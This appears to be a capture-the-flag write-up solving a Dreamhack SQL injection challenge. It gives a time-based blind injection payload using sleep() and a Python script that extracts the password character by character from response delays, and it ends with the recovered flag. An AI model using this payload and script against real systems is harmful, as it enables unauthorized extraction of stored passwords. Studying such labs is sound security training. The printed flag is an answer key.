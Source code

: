 ## Solution 1: [Time based sqli](https://owasp.org/www-community/attacks/Blind_SQL_Injection)

The given query is
```sql
SELECT * FROM user WHERE uid='{uid}';
```

If we send to the server ```uid```
```
a' OR upw LIKE 'DH%' AND sleep(10) AND '1
```

Then the query will be
```sql
SELECT * FROM user WHERE uid='a' OR upw LIKE 'DH%' AND sleep(10) AND '1';
```

- If ```upw``` is correct, the ```sleep(10)``` command will be executed, and it will cost more time to return result.

### Code

```py
import requests
import string
import time

# dont forget the close curly
ALPHABET = "}" + string.digits + string.ascii_lowercase + string.ascii_uppercase

URL = "http://host3.dreamhack.games:16009/"

flag = "DH{"
flag_guess = "DH{"
payload = "?uid=a' OR upw LIKE '{}' AND sleep(5) AND '1"

while flag[-1] != "}":
    for c in ALPHABET:
        flag_guess = flag + str(c) + "%"
        start_time = time.time()
        response = requests.get(URL + payload.format(flag_guess))
        if time.time() - start_time > 5:
            flag = flag_guess[:-1] # remove "%"
            print(f"--------flag_guess: {flag}-------------")
            break

print(flag)
```

The flag is
```
DH{c3968c78840750168774ad951fc98bf788563c4d}
```
